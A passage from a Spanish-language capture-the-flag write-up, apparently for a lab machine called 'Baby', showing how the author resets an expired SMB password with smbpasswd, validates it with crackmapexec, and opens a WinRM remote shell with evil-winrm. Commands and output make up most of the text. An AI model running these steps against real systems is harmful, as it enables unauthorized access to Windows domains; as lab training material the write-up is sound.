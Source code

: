 ## Shell as caroline Robinson

- Como pudimos ver, nos da un mensaje de **STATUS_PASSWORD_MUST_CHANGE** que significa que la contraseña ya fue cambiada, pero podemos cambiarla usando la herramienta `smbpasswd` <https://www.samba.org/samba/docs/current/man-html/smbpasswd.8.html>.

```bash
➜  content smbpasswd -r baby.vl -U caroline.robinson
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user caroline.robinson
➜  content
```

- Ahora vamos a ver si la contraseña es correcta.

```bash
➜  content crackmapexec smb baby.vl -u caroline.robinson -p 'NewPass$!xd'
SMB         baby.vl         445    BABYDC           [*] Windows 10.0 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         baby.vl         445    BABYDC           [+] baby.vl\caroline.robinson:NewPass$!xd
➜  content crackmapexec winrm baby.vl -u caroline.robinson -p 'NewPass$!xd'
SMB         baby.vl         5985   BABYDC           [*] Windows 10.0 Build 20348 (name:BABYDC) (domain:baby.vl)
HTTP        baby.vl         5985   BABYDC           [*] http://baby.vl:5985/wsman
WINRM       baby.vl         5985   BABYDC           [+] baby.vl\caroline.robinson:NewPass$!xd (Pwn3d!)
➜  content
```

- Cómo nos da un **Pwn3d!** en **winrm** podemos conectarnos empleando **evil-winrm**.

```bash
➜  content evil-winrm -i 10.10.88.84 -u caroline.robinson -p 'NewPass$!xd'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami
baby\caroline.robinson
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents>
```

## User flag

<p align="center">
<img src="https://i.imgur.com/n3kaWuQ.png">
</p>
